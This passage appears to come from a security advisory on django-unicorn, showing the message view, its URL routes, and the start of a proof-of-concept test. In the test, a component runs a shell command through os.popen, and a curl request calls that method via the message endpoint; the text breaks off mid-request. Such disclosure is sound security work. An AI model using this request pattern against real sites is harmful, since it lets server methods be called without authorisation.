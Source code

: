 ```python
@timed
@handle_error
@ensure_csrf_cookie
@csrf_protect
@require_POST
def message(request: HttpRequest, component_name: Optional[str] = None) -> JsonResponse:
    if not component_name:
        raise AssertionError("Missing component name in url")

    component_request = ComponentRequest(request, component_name)
    json_result = _handle_component_request(request, component_request)

    return JsonResponse(json_result, json_dumps_params={"separators": (",", ":")})
```

This endpoint is exposed in `django_unicorn/urls.py`:

```python
urlpatterns = (
    re_path(r"message/(?P<component_name>[\w/\.-]+)", views.message, name="message"),
    path("message", views.message, name="message"),
)
```

### Security Test Case
To test this vulnerability:

1. Create a test Django project with django-unicorn installed
2. Create a component with a potentially dangerous method:
```python
# dangerous_component.py
from django_unicorn.components import UnicornView
import os

class DangerousComponentView(UnicornView):
    output = ""

    def get_system_info(self):
        # This method is not intended to be called from frontend but will work
        self.output = os.popen('uname -a').read()
        return self.output
```

3. Create a template that includes this component:
```html
{% load unicorn %}
{% csrf_token %}
{% unicorn 'dangerous-component' %}
```

4. Use curl or another HTTP client to send an AJAX request to the component endpoint:
```bash
curl -X POST "http://localhost:8000/unicorn/message/dangerous-component" \
  -H "Content-Type: application/json" \
  -H "X-CSRFToken: YOUR_CSRF_TOKEN" \
  -H "Cookie: csrftoken=YOUR_CSRF_TOKEN" \
  -d '{
    "actionQueue": [
      {
        "type": "callMethod",
        "payload": {"name": "get_system_info"}
      }
    ],
    "data": {},
    "checksum": "VALID_CHECKSUM",
    "id": "component_id",
```